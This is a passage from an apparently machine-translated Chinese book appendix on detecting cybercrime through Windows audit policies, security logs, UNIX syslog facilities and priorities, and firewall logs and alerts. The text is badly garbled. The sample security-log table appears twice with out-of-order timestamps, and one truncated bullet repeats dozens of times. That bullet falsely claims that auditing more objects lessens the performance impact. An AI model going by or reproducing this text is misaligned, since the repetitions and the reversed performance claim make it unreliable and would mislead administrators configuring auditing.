- **登录事件**：使用此项监控系统帐户和用户账户的所有登录事件（换句话说，它是登录事件的超集）。
- **对象访问**：使用此项启用单个文件、文件夹、打印机或其他计算机资源的审计（这些内容也必须单独逐地进行审计配置）。
- **策略更改**：使用此项监控 GPO 的创建、删除或修改。这跟踪了 Windows 系统上重要的管理活动。
- **特权使用**：使用此项监控 Windows 系统上用户和管理员权限的使用。这还跟踪了 Windows 系统上重要的管理活动，以及对象所有者/创建者和权限的使用。
- **进程跟踪**：使用此项监控进程创建、线程和删除。这很少用于安全目的（但有时可能有用）。
- **系统事件**：使用此项监控操作系统活动。这也被用于安全目的。

在 Windows Vista 和 Windows Server 2008 中，审计策略的数量从九种增加到五十种。原始的九种策略都有子类别，允许你以更细的粒度审计事件。表 A.1 列出了策略及其子类别。

#### 表 A.1 Windows Vista 和 Windows Server 2008 审计策略

| 审计策略名称 | 顶级类别 | 子类别 |
| :--- | :--- | :--- |
| 审计系统事件 | 系统 | 安全状态更改 安全扩展程序 IPsec 驱动程序 其他系统事件 |
| 审计账户登录事件 | 登录/注销 | 登录注销 账户锁定 主模式 IPsec 快速模式 IPsec 扩展模式 特殊登录 其他账户登录/注销事件 网络策略服务器 |
| 审计对象访问 | 对象访问 | 文件系统 注册表内核对象 SAM 证书服务应用程序句柄操作文件共享过滤平台数据包丢弃过滤平台连接其他对象访问事件 |

| 审计特权使用 | 特权使用 | 敏感特权使用 非敏感特权使用 其他特权事件 |
| 审计进程跟踪 | 详细跟踪 | 进程创建 进程终止 DPAPI 活动 RPC 事件 |

### 表 A.1 续。Windows Vista 和 Windows Server 2008 审计策略

| 审计策略名称 | 顶级类别 | 子类别 |
| :--- | :--- | :--- |
| 审计策略更改 | 策略更改 | 审计策略更改 身份验证策略更改 授权策略更改 MPSSVC 规则级策略更改 过滤平台策略更改 其他策略更改事件 |
| 审计账户管理 | 账户管理 | 用户帐户管理 帐户管理 安全组管理 分配组管理 应用程序组管理其他帐户管理事件 |
| 审计目录服务访问 | DS访问 | 目录服务访问 目录服务更改 目录服务复制 详细目录复制 |

一旦启用审计策略，采集的信息将存储在安全日志中，以便通过事件查看器查看。图 A.2 显示了在事件查看器中打开的安全日志。注意，成功和失败的登录事件都被审计了。


## 附录 A 在 Windows 和 *nix* 上实现网络犯罪检测技术

### 图 A.2 显示已启用审计事件的安全日志

| ID | 日期 | 时间 | 来源 | 类别 | 事件 | 用户 | 计算机 |
|---|---|---|---|---|---|---|---|
| 成功审计 | 2009/01/11 | 凌晨 12:25:25 | 安全 | 权限 | 576 | LOCAL SERVICE | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:25:29 | 安全 | 注销 | 528 | LOCAL SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:25:39 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:25:45 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:25:49 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:25:01 | 安全 | 权限 | 576 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:25:02 | 安全 | 注销 | 529 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:25:03 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:54 | 安全 | 权限 | 576 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:55 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:56 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:57 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:58 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:59 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:00 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:01 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:02 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:03 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:04 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:05 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:06 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:07 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:08 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:09 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:10 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:11 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:12 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:13 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:14 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:15 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:16 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:17 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:18 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:19 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:20 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:21 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:22 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:23 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:24 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:25 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:26 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:27 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:28 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:29 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:30 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:31 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:32 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:33 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:34 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:35 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:36 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:37 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:38 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:39 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:40 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:41 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:42 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:43 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:44 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:45 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:46 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:47 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:48 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:49 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:50 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:51 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:52 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:53 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:54 | 安全 | 权限 | 576 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:55 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:56 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:57 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:58 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:59 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |

## 在 Windows 和 *nix* 上实现网络犯罪检测技术

### 图 A.2 显示已启用审计事件的安全日志

| ID | 日期 | 时间 | 来源 | 类别 | 事件 | 用户 | 计算机 |
|---|---|---|---|---|---|---|---|
| 成功审计 | 2009/01/11 | 凌晨 12:25:25 | 安全 | 权限 | 576 | LOCAL SERVICE | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:25:29 | 安全 | 注销 | 528 | LOCAL SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:25:39 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:25:45 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:25:49 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:25:01 | 安全 | 权限 | 576 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:25:02 | 安全 | 注销 | 529 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:25:03 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:54 | 安全 | 权限 | 576 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:55 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:56 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:57 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:58 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:59 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:00 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:01 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:02 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:03 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:04 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:05 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:06 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:07 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:08 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:09 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:10 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:11 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:12 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:13 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:14 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:15 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:16 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:17 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:18 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:19 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:20 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:21 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:22 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:23 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:24 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:25 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:26 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:27 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:28 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:29 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:30 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:31 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:32 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:33 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:34 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:35 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:36 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:37 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:38 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:39 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:40 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:41 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:42 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:43 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:44 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:45 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:46 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:47 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:48 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:49 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:50 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:51 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:52 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:53 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:54 | 安全 | 权限 | 576 | Administrator | 06-2009 |
| 成功审计 | 2009/01/11 | 凌晨 12:24:55 | 安全 | 注销 | 528 | Administrator | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:56 | 安全 | 权限 | 576 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:57 | 安全 | 注销 | 529 | NETWORK SERVICE | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:58 | 安全 | 账户登录 | 600 | SYSTEM | 06-2009 |
| 失败审计 | 2009/01/11 | 凌晨 12:24:59 | 安全 | 系统周期 | 515 | SYSTEM | 06-2009 |

在事实上，许多集成 UNIX 或 Linux 的网络还会设置特殊的网络驱动器来记录日志数据，以便所有数据都能集中在一个位置。此外，Syslog 守护进程接收来自各种操作系统和用户应用程序的数据（见表 A.2）；它还使用单一标准格式将所有日志数据存储在磁盘上。

- 审计的对象和活动越多，对性能的影响就越小，IT 专业人员需要通过挖掘这些数据来发现哪些是合规的或未授权的事件。
- 审计的对象和活动越多，对性能的影响就越小，从而对磁盘产生影响。
- 审计的对象和活动越多，对性能的影响就越小，从而导致。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。（同样在 Windows 系统上，这种一致性并不适用于所有日志，因为事件查看器对其日志使用一种格式，但其他应用程序和服务使用其他格式。）

显示特定事件的显示
- 审计的对象和活动越多，对性能的影响就越小，从而。
- 审计的对象和活动越多，对性能的影响就越小，从而。

### 审计 UNIX 和 Linux

每个 UNIX 发行版和版本都以自己的方式记录日志，并存储在特定文件中。然而，大多数 UNIX 和 Linux 系统支持丰富的日志功能并共享许多特性。

### 表 A.2 常见的 syslog 设施

| 设施 | 描述 |
|---|---|
| Auth | 授权 |
| Cron | 计划任务 |
| Daemon | 守护进程 |
| Kernel | 内核 |
| local | 本地 |
| Lpr | 打印 |
| Mark | 标记 |
| Mail | 电子邮件 |
| Syslog | 系统日志 |

### 图 A.3 按优先级显示

事实上，Syslog 根据预定义的方案对事件或错误消息进行优先级排序（见表 A.3）。优先级较高的消息出现在表格顶部，优先级较低的消息出现在表格底部。

此外，各种 UNIX 或 Linux 日志文件存储特定类型的事件或信息。因此，login 记录了失败的登录尝试，sul 记录了 su（超级用户）命令活动并识别源自该活动的用户账户。utmp 日志识别当前登录到系统的所有用户，而 wtmp 日志定期存储 utmp 信息的快照。这些只是大多数 Linux 和 UNIX 系统上许多许多日志文件之一；请咨询您的系统文档和手册页（man pages）以获取完整的设施列表、使用的格式以及（默认）存储位置。


# 表 A.3 Syslog 优先级

| 优先级 | 描述 |
|---|---|
| Emerg | 广播给所有用户的紧急状况 |
| Alert | 需要立即干预的状况 |
| Crit | 严重错误，例如设备故障 |
| Err | 标准优先级错误 |
| Warning | 警告消息 |
| Notice | 可能需要某些操作或响应的通知 |
| Info | 信息性消息 |
| Debug | 显示程序在调试模式下运行时写入 Syslog 的消息 |

# 防火墙日志、报告、警报和告警

由于防火墙位于内部网络和外部网络的边界上，它们是观察入站（和出站）流量的理想位置。因此，防火墙不仅代表了挫败或偏离攻击的第一道也是最重要的防线，而且你还可以配置它们来监控和跟踪可能指示攻击刚开始迹象的活动，这并不令人意外。除非攻击者足够精明能够删除日志文件（遗憾他们确实可以做到），否则防火墙日志还可以帮助你在事后后记录成功或尝试的攻击。大多数边界设备（不仅包括防火墙，还包括筛选路由器、应用网关、代理服务器等）——而且确实应该——都会定期记录各种活动。鉴于此类日志在需要强有力证据的情况下可能是非常重要的证据来源，大多数设备都会记录广泛的流量和各种类型的活动。

由于许多设备运行在基于 UNIX 或类 UNIX 的环境中，好消息是，前一节中关于 Syslog 功能和通用 Linux 或 UNIX 日志技术所涵盖的信息通常适用于防火墙、路由器和其他设备。例如，Cisco 设备运行着 Cisco 专有的操作系统，即互联网操作系统或 IOS，该软件使用相当标准的 Syslog 实现来支持其日志功能。在考虑到低级细节会随系统和实现方式的不同而异异的前提下，我们对日志设施和操作的通用涵盖适用于许多（如果不是大多数）常用的边界设备。

目前已有可以监控和分析防火墙日志的附加软件产品。例如，firelogd 是一个监控 Linux 防火墙日志的守护进程。Fwanalog 是一个在 UNIX 和 Linux 系统上解析和总结防火墙日志文件的脚本。Stonylake Firewall Reporter 是一个运行在 Windows 和 Linux 上的服务器应用程序，提供 150 多份报告以帮助数据分析。ZoneLogAnalyzer 将 ZoneAlarm 防火墙的日志导入易于查询的数据库。Web Trends 提供了一套防火墙套件，可以处理来自 Check Point、Cisco、Microsoft ISA Server 防火墙等的日志文件。

日志只是防火墙和其他边界设备提供其所跟踪活动和流量信息的方法之一。防火墙（和其他边界设备）确实会创建日志文件，各种数据都可能被写入并长期存储。但这些设备还支持各种类型的其他输出，其中某些是非常重要的：

- 警报（Alarms）：当发生特别可疑的活动或事件时，可以指示这些系统以各种格式发布高优先级消息。许多此类系统在发生特定事件时，除了记录信息，还可以向特定的响应者发送电子邮件，甚至呼叫指定的电话号码。此功能允许系统由负责人员提供即时响应。由于路由器、防火墙和其他边界设备可能遭受 ping 洪水（ping floods）或其他拒绝服务（DoS）攻击，并且由于它们可能会目证同样示着攻击已开始的失败登录尝试，因此在响应此类事件时，采取立即行动至关重要。

- 告警（Alerts）：某些类型的流量活动虽然其攻击症状并不那么明显，但仍应予以调查。这解释了为什么许多边界系统在特定条件发生时也能发布告警。虽然这些告警也可能导致电子邮件或寻呼机报警，但它们通常没有直接的警报那么紧急。

- 报告（Reports）：尽管可报告的事件属于更基础的类别，即流量、分类、活动、错误以及失败的日志或其他访问尝试，但大多数边界设备还可以报告某些特定时间内的聚合行为和统计数据（每日、每周、每月等）。此类报告是系统整体健康和安全的重要指标，应作为系统监控和维护过程的一部分定期查阅。

事实上，大多数操作系统也具有某种类型的警报或告警功能。例如，Windows NT、2000、XP、Server 2003 和 Server 2008 支持向管理员发送有关系统性能或错误的系统告警。当防火墙日志中出现什么类型的信息时，它通常由简单的文本记录组成，记录网络流量的各个方面。尽管细节在某些程度上会有所不同，但没有任何日志记录如果不包含至少内容（通常比此简短的常见日志条目字段列表更多）就是完整的：

- 时间戳（Timestamp）：事件、活动或通信发生的日期和时间
- 源地址（Source address）：流量源的报告 IP 地址
- 源域名（Source domain name，如果可用）：流量源的报告域名
- 目的地址（Destination address）：所用服务的目标交付地址
- 协议（Protocol）：使用的 IP 协议或服务的名称
- 消息类型或类别（Message type or class，如适用）：发送的消息类型
- 端口地址（Port address，如适用）：消息指向的 TCP 或 UDP 端口
- Socket 地址（Socket address，如适用）：消息指向的 Socket 地址

在某些情况下，日志条目还包括所谓的反向 DNS 查找（reverse DNS lookup）或回溯（backtrack）。你可以配置某些边界设备，将入站流量报告的域名关联的官方 IP 地址与入站流量中包含的实际 IP 地址进行比对。当这两个值不同时，它可以作为伪骗（spoofing）的确定指示，反过来可能意味着发生了可疑活动（即使不是直接的攻击）。这种检测通常会触发合理的告警或警报。

